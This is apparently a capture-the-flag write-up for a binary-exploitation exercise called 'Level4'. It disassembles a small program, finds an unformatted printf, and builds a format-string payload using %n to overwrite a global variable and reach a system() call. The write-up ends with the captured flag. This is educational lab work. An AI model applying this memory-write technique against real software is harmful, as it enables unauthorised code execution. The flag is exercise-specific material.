 # Level4

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level4/level4

## Testing the program

```bash
./level4 
hello
hello
```

Once more we have an executable which displays the string passed. 

## Learning more

```bash
disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:	push   %ebp
   0x080484a8 <+1>:	mov    %esp,%ebp
   0x080484aa <+3>:	and    $0xfffffff0,%esp
   0x080484ad <+6>:	call   0x8048457 <n>
   0x080484b2 <+11>:	leave  
   0x080484b3 <+12>:	ret    
End of assembler dump.
``` 

The executable calls a function called 'n'. 

```bash
disas n
Dump of assembler code for function n:
   0x08048457 <+0>:	push   %ebp
   0x08048458 <+1>:	mov    %esp,%ebp
   0x0804845a <+3>:	sub    $0x218,%esp
   0x08048460 <+9>:	mov    0x8049804,%eax
   0x08048465 <+14>:	mov    %eax,0x8(%esp)
   0x08048469 <+18>:	movl   $0x200,0x4(%esp)
   0x08048471 <+26>:	lea    -0x208(%ebp),%eax
   0x08048477 <+32>:	mov    %eax,(%esp)
   0x0804847a <+35>:	call   0x8048350 <fgets@plt> --> CALL TO FGETS
   0x0804847f <+40>:	lea    -0x208(%ebp),%eax
   0x08048485 <+46>:	mov    %eax,(%esp)
   0x08048488 <+49>:	call   0x8048444 <p> --> CALL TO ANOTHER FUNCTION CALLED P
   0x0804848d <+54>:	mov    0x8049810,%eax
   0x08048492 <+59>:	cmp    $0x1025544,%eax
   0x08048497 <+64>:	jne    0x80484a5 <n+78>
   0x08048499 <+66>:	movl   $0x8048590,(%esp)
   0x080484a0 <+73>:	call   0x8048360 <system@plt> --> CALL TO SYSTEM
   0x080484a5 <+78>:	leave  
   0x080484a6 <+79>:	ret    
End of assembler dump.
```

3 things here :
```plaintext
    • a "fgets" call
    • a call to a "p" function
    • a condition for a call to "system"
```

The program compares the value of a global variable m at 0x8049810 to 0x1025544 (16930116 in dec).


```bash
disas p
Dump of assembler code for function p:
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x8(%ebp),%eax
   0x0804844d <+9>:	mov    %eax,(%esp)
   0x08048450 <+12>:	call   0x8048340 <printf@plt>
   0x08048455 <+17>:	leave  
   0x08048456 <+18>:	ret    
End of assembler dump.
```

Once again we have "printf" that calls the argument, without formater --> Format string again

## Getting access to the shell

Like in level3 our goal is to manipulate the printf() function into changing the value of the variable at the address 0x8049810 

1. Print the memory until we reach the address of the variable we wish to modify

```bash 
$ python -c 'print "aaaa %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x"' > /tmp/coucou
$ cat /tmp/coucou - | ./level4
aaaa b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520
```

The buffer aaaa is at the 12th position (61616161). 

2. Change the value

Our previous method won't work here because the value 16930116 in the comparaison is too long.
However we can use the modifier %d, and dynamically specify the field width (as so : %16930116d).
This will be the only difference between this level and the older one.

3. Making the payload 

We have to reach a total of : 16930116, we have the adrress of m which takes up 4 bytes so our final padding is 16930112. 
Giving us the following payload : 

```bash 
$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/coucou
$ cat /tmp/coucou | ./level4
[...]
     -1208015184
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```